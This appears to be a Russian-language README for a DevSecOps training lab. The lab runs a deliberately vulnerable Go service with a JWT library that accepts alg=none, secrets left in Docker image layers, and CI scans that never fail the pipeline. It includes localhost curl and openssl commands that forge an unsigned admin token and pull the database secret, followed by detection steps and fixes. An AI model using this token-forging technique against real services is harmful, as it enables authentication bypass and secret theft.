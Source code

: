 ## Сценарий A: Провал CI/CD-конвейера на Go
**Уровень сложности:** продвинутый  
**Суть проблемы:**  
В этой задаче вам предстоит разобраться, как сочетание сразу трёх ошибок DevOps-практик приводит к критической уязвимости:

1. **Использование уязвимой библиотеки** JWT с поддержкой `alg=none` (CVE–RCE).  
2. **Утечка секретов** из-за попадания в образ файла `config.yaml` с чувствительными данными и передача секрета через Dockerfile, что отображается в слоях создания образа.  
3. **Игнорирование результатов сканирования** в CI/CD: `golangci-lint` и `Trivy` настроены так, что ошибки не останавливают конвейер.

В качестве приложения используется Go-сервис, который выдаёт JWT-токен, проверяет его в админ-эндпоинте и отдаёт пароль базы данных через `/secret`.

## Запуск
- Сборка
```sh
docker-compose up --build -d
```
- Убедитесь, что контейнеры запущены:
```sh
docker ps
```

## Эксплуатация уязвимостей
- JWT-уязвимость (alg=none):
```sh
# Получить токен
TOKEN=$(curl -s http://localhost:8080/login)
echo "$TOKEN"

# Попасть в админку без подписи
curl -H "Authorization: Bearer $TOKEN" http://localhost:8080/admin
```

- Forge-токен с любым user
```sh
HEADER=$(printf '{"alg":"none","typ":"JWT"}' \
          | openssl base64 -e | tr -d '=' | tr '/+' '_-')
PAYLOAD=$(printf '{"user":"admin","exp":%d}' \
          $(date -d "+1 hour" +%s) \
          | openssl base64 -e | tr -d '=' | tr '/+' '_-')
EXPLOIT="$HEADER.$PAYLOAD."
curl -H "Authorization: Bearer $EXPLOIT" http://localhost:8080/admin
```
- Утечка секретов:
```sh
curl http://localhost:8080/secret

docker history app-go:latest
```

- Утечка конфигурационных и секретных файлов:
```sh
docker exec -it laba_ci_disaster-app-go-1 sh

# В контейнере обнаружим все файлы, которые содержались в изначальной дериктории сборки контейнера
ls -al
```

## Обнаружение
- Trivy (scanner):
```sh
docker-compose logs scanner
```
увидите сообщения о CVE в библиотеке jwt-go.

- Code scanner:
```sh
docker-compose logs code-scan
```
найдёт потенциально опасные вызовы

- Просмотр слоев сборки образа:

```sh
docker history app-go:latest
```

## Исправления
- Обновить JWT-библиотеку:
Измените начало файла `main.go`
```go
package main

import (
	"fmt"
	"io/ioutil"
	"log"
	"net/http"
	"time"

	"github.com/golang-jwt/jwt/v4"
	"gopkg.in/yaml.v2"
)
```

- Исправить фунцию обработки входа(Новый `adminHandler`):
```go
func adminHandler(w http.ResponseWriter, r *http.Request) {
    auth := r.Header.Get("Authorization")
    if auth == "" {
        http.Error(w, "No token", http.StatusUnauthorized)
        return
    }
    tokenString := auth[len("Bearer "):]
    token, err := jwt.Parse(tokenString, func(token *jwt.Token) (interface{}, error) {
        // Проверяем, что метод подписи — HMAC
        if _, ok := token.Method.(*jwt.SigningMethodHMAC); !ok {
            return nil, fmt.Errorf("Unexpected signing method: %v", token.Header["alg"])
        }
        return []byte(cfg.JWTSecret), nil
    })
    if err != nil || !token.Valid {
        http.Error(w, "Invalid token", http.StatusForbidden)
        return
    }
    claims := token.Claims.(jwt.MapClaims)
    fmt.Fprintf(w, "Welcome back, %v\n", claims["user"])
}
```

- Изменить файл `go.mod` для использования более новой версии Golang
```go
module labA_go_ci_disaster

go 1.24

require (
	github.com/golang-jwt/jwt/v4 v4.5.2
	gopkg.in/yaml.v2 v2.4.0
)

```

- Добавляем `.dockerignore`
```dockerignore
# игнорируем всё, кроме исходников Go и конфига
*
!main.go
!go.mod
!go.sum
!config.yaml
```

- Переписываем Dockerfile на multi-stage build
```Dockerfile
# Stage 1: build
FROM golang:1.24-alpine AS builder
WORKDIR /app
RUN apk add --no-cache git ca-certificates bash

COPY . .
RUN go mod tidy
RUN go mod download

RUN go build -o server main.go

# Stage 2: runtime
FROM alpine:3.17
WORKDIR /app

# Копируем только бинарь и конфиг
COPY --from=builder /app/server .
COPY --from=builder /app/config.yaml .

# Минимизируем поверхность атаки
RUN addgroup -S app && adduser -S app -G app
USER app

EXPOSE 8080
CMD ["./server"]
```
